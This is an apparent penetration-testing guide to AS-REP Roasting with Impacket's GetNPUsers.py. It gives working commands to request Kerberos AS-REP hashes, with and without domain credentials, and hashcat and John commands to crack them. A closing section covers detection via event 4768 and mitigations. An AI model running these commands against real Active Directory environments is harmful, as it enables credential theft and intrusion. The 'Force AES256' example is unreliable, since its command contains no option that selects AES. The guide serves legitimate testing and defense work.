



## TL;DR

`GetNPUsers.py` is an Impacket script that performs **AS-REP Roasting** — exploiting Active Directory accounts that have *"Do not require Kerberos preauthentication"* enabled. When this flag is set, the KDC will hand back an AS-REP without verifying the requester's identity, exposing an encrypted blob that can be cracked offline.

---

## What GetNPUsers.py Does

| Capability | Details |
|---|---|
| Enumerate roastable accounts | Via LDAP query (requires credentials) or a supplied user list |
| Request AS-REP without pre-auth | Sends an unauthenticated AS-REQ for each vulnerable account |
| Return crackable hashes | Outputs `$krb5asrep$` hashes in hashcat / John the Ripper format |
| Support multiple output formats | `-outputfile`, `-format hashcat` or `-format john` |
| Work without domain credentials | Possible if you supply a username list and the KDC responds |
| Target specific users | Single user mode with `-usersfile` or positional argument |

---

## What GetNPUsers.py Cannot Do

| Limitation | Why |
|---|---|
| Crack the hash | Offline cracking must be done separately (hashcat / john) |
| Target accounts requiring pre-auth | The KDC returns `KRB_ERROR: KDC_ERR_PREAUTH_REQUIRED` and no hash is returned |
| Enumerate users from scratch (without creds or list) | LDAP query requires valid credentials; blind mode needs a pre-built user list |
| Escalate privileges on its own | Only retrieves a hash — cracking and lateral movement are separate steps |
| Bypass Kerberos AES-only enforcement | Hash difficulty increases when AES256 (`etype 18`) is enforced instead of RC4 (`etype 23`) |
| Work against accounts with smart card enforcement | These accounts have different logon requirements |
| Function without network access to the DC | Requires TCP 88 (Kerberos) and optionally TCP 389/636 (LDAP) |

---

## Normal Kerberos AS-REQ vs AS-REP Roasting

### Normal flow (pre-authentication enabled)



### AS-REP Roasting (pre-authentication disabled)



> The KDC never verified the requester was actually `target_user`. Anyone who knows the username can request the AS-REP.

---

## Full Attack Flow



---

## When to Use It

### Scenario 1 — You have valid domain credentials

The most common usage. LDAP enumeration finds all roastable accounts automatically.

```bash
# With domain credentials — auto-enumerate via LDAP
GetNPUsers.py <DOMAIN>/<USER>:<PASSWORD> -dc-ip <DC_IP> -request -outputfile hashes.txt

# Example
GetNPUsers.py corp.local/jsmith:Password1 -dc-ip 10.10.10.100 -request -outputfile hashes.txt
```

### Scenario 2 — No credentials, but you have a user list

Useful after username enumeration via Kerbrute, OSINT, or SMB null sessions.

```bash
# No credentials — supply a user list
GetNPUsers.py <DOMAIN>/ -no-pass -usersfile users.txt -dc-ip <DC_IP> -outputfile hashes.txt

# Example
GetNPUsers.py corp.local/ -no-pass -usersfile users.txt -dc-ip 10.10.10.100 -outputfile hashes.txt
```

### Scenario 3 — Target a single specific user

```bash
GetNPUsers.py <DOMAIN>/<TARGET_USER> -no-pass -dc-ip <DC_IP>
```

### Scenario 4 — Request AES256 hashes (harder to crack)

```bash
# Force AES256 (etype 18) — cracking takes significantly longer
GetNPUsers.py corp.local/jsmith:Password1 -dc-ip 10.10.10.100 -request -format hashcat -outputfile hashes.txt
```

---

## Cracking the Hash

```bash
# RC4 (etype 23) — hashcat mode 18200
hashcat -m 18200 hashes.txt /usr/share/wordlists/rockyou.txt

# With rules for better coverage
hashcat -m 18200 hashes.txt /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule

# John the Ripper
john --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt
```

**Hash format reference:**

```
$krb5asrep$23$user@DOMAIN.LOCAL:abc123...<encrypted blob>
          ^^ etype 23 = RC4-HMAC (easier to crack)

$krb5asrep$18$user@DOMAIN.LOCAL:abc123...<encrypted blob>
          ^^ etype 18 = AES256-CTS-HMAC-SHA1-96 (slower to crack)
```

---

## Common Options

| Flag | Description |
|---|---|
| `-request` | Request TGT and output the AS-REP hash |
| `-no-pass` | Do not prompt for a password (anonymous mode) |
| `-usersfile <file>` | File containing usernames to test |
| `-outputfile <file>` | Save hashes to file |
| `-format <hashcat\|john>` | Hash output format |
| `-dc-ip <ip>` | Domain controller IP |
| `-dc-host <hostname>` | Domain controller hostname |

---

## Identifying Roastable Accounts

### PowerShell (on a domain-joined machine)

```powershell
# Find all accounts with DONT_REQUIRE_PREAUTH
Get-ADUser -Filter {DoesNotRequirePreAuth -eq $true} -Properties DoesNotRequirePreAuth |
    Select-Object Name, SamAccountName, DoesNotRequirePreAuth
```

### LDAP filter (used internally by GetNPUsers.py)

```
(userAccountControl:1.2.840.113556.1.4.803:=4194304)
```

The bit `4194304` (0x400000) corresponds to `UF_DONT_REQUIRE_PREAUTH`.

---

## Detection & Defense

### Blue Team Indicators

| Event ID | Source | What to look for |
|---|---|---|
| 4768 | Security | AS-REQ with no pre-authentication (`Pre-Authentication Type: 0`) — this is the roasting attempt |
| 4625 | Security | Failed logon attempts if cracked passwords are used |

Kerberos event 4768 with **Pre-Authentication Type = 0** is the clearest indicator. In a healthy environment this should be rare to never.

### Mitigations

```powershell
# Enforce pre-authentication on all accounts
# First: find accounts with the flag set
Get-ADUser -Filter {DoesNotRequirePreAuth -eq $true} -Properties DoesNotRequirePreAuth

# Fix: re-enable pre-authentication
Set-ADAccountControl -Identity <username> -DoesNotRequirePreAuth $false
```

- Enforce **strong password policies** — cracking long, complex passwords is computationally infeasible
- Enable **AES encryption** for Kerberos and disable RC4 to slow cracking significantly
- Use **Microsoft Defender for Identity** (MDI) — it alerts on AS-REP Roasting attempts out of the box
- Regularly audit accounts with `UF_DONT_REQUIRE_PREAUTH` set

---

## References

- [Impacket — GetNPUsers.py source](https://github.com/fortra/impacket/blob/master/examples/GetNPUsers.py)
- [harmj0y — Roasting AS-REPs](https://www.harmj0y.net/blog/activedirectory/roasting-as-reps/)
- [Microsoft — userAccountControl attribute](https://learn.microsoft.com/en-us/troubleshoot/windows-server/active-directory/useraccountcontrol-manipulate-account-properties)
